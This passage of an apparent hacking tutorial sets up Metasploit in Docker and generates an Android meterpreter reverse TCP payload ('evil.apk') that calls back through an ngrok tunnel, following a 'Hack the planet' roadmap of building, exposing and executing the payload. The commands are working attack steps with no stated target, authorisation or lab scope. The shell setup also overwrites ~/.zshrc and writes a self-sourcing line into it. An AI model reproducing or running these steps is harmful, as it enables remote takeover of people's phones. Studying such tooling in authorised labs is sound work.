 ```bash
cat > ~/.zshrc << EOF
alias metasploit8888='sudo docker run --rm -it -v /tmp/msf:/tmp/msf -p 8888:8888 -e MSF_UID=0 -e MSF_GID=0 metasploitframework/metasploit-framework:latest /bin/bash'
alias wipe_docker='sudo docker rm $(sudo docker ps -a -q) && docker rmi $(sudo docker images -q)'

source ~/.zshrc
EOF
```

> Update one week later : \
> Adding the flag `--network=host` allows you to run many dockers without specifying the published ports, without port (bind) conflicts, and that's one less ip to be confused with so that's what I use now ! =]


Let’s spend some time explaining metasploit8888 alias. 

- `sudo` # we need to be root to interact with the docker socket
- `docker` # Interact with the socket using docker (captain obvious <3)
- `run` # start a process in out container
- `--rm` # remove the container on exit (cleaner)
- `-it` # interactive allocate a pseudo tty
- `-v /tmp/msf:/tmp/msf` # Mount /tmp/msf from our host in the docker, useful - `to extract data
- `-p 8888:8888` # expose out docker port on the host itself
- `-e MSF_UID=0 -e MSF_GID=0` # metasploit specific environment variables (root user and group)
- `metasploitframework/metasploit-framework:latest`  # the image we’ll use, from the Docker Hub
- `/bin/bash` # Override the entry point (msfconsole) with bash, so we can also use msfvenom

Image provider here : https://hub.docker.com/r/metasploitframework/metasploit-framework/


## Step 4 : Hack the planet!

Still here? Nice! Here’s our roadmap : 

- Generate a meterpreter payload (apk)
- Expose the dockerToHost (docker -p) and HostToWorld (ngrok)
- Get the meterpreter handler ready
- Execute the payload
- Profit???

### Step 4.1 : Create the tunnel and generate our payload

In order to create the right payload, we need to know which port we’ll use, thus we start the tunnel first. 

```bash
ngrok tcp 8888
```

Then we list the payloads and use the one of our choice. It should depend on the situation, but we’re just having fun here so let’s go for something efficient and reliable : meterpreter (shell++), reverse (connects back to us), tcp (more reliable than udp but slower for big queries)

```bash
./msfvenom --list payload | grep android
./msfvenom -p android/meterpreter_reverse_tcp LHOST=0.tcp.ngrok.io LPORT=8888 > /tmp/msf/evil.apk
```
